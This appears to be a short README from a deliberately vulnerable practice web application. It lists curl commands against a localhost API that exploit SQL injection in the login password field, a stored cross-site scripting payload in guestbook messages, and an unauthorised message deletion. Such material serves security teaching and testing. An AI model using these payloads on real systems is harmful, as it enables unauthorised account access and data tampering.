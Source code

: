 A collection of curl commands you can use to exploit the vulnerabilities in the application.

## SQL injection

```bash
# Log in as any user
curl -X POST "http://localhost:8080/api/login" \
  -H "Content-Type: application/json" \
  -d "{\"username\": \"admin\", \"password\": \"' OR username='admin\"}" \
  -v && echo ""
```

## Cross-site scripting

```bash
# Execute a script when the guestbook page is loaded
curl -X POST "http://localhost:8080/api/messages" \
  -H "Authorization: Bearer <token>" \
  -H "Content-Type: application/json" \
  -d "{\"message\": \"<img onLoad=(alert('pwned')) src=\\\"./favicon.ico\\\" />\"}" \
  -v && echo ""
```

## Broken access control

```bash
# Delete any message without admin privileges
curl -X DELETE "http://localhost:8080/api/messages/<messageId>" \
  -H "Authorization: Bearer <token>" \
  -v && echo ""
```
